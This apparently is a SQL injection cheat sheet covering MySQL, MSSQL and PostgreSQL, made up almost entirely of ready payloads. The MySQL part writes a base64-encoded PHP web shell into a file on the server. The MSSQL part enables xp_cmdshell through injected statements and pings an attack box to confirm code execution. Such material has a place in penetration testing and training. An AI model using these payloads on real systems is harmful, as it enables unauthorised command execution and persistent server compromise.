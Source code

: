 # Cheat Sheet Highlights

## Language

### MySQL

```mysql
/* Comments */
#comment
-- comment
/*comment*/

/* Database version */
SELECT @@version

/* Database contents */
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

/* Time delays */
SELECT SLEEP(5)

/* Write file */
'; select from_base64("PD9waHAKc3lzdGVtKCRfR0VUWydjbWQnXSk7Cj8+Cg==") into dumpfile '/var/lib/mysql/shell.php'--+
```

### MSSQL

```sql
/* Comments */
--comment
/*comment*/

/* Database version */
SELECT @@version

/* Database contents */
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

/* Time delays */
WAITFOR DELAY '0:0:5'
```

#### Test code execution

```
'; EXECUTE sp_configure 'show advanced options', 1;--
'; RECONFIGURE;--
'; EXECUTE sp_configure 'xp_cmdshell', 1;--
'; RECONFIGURE;--
```

On attack box

```bash
sudo tcpdump -i tun0 icmp
```

Back to target

```
'; EXECUTE xp_cmdshell 'ping <ATTACK_BOX>';--
```

### PostgreSQL

```postgresql
/* Comments */
--comment
/*comment*/

/* Database version */
SELECT version()

/* Database contents */
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

/* Time delays */
SELECT pg_sleep(5)
```

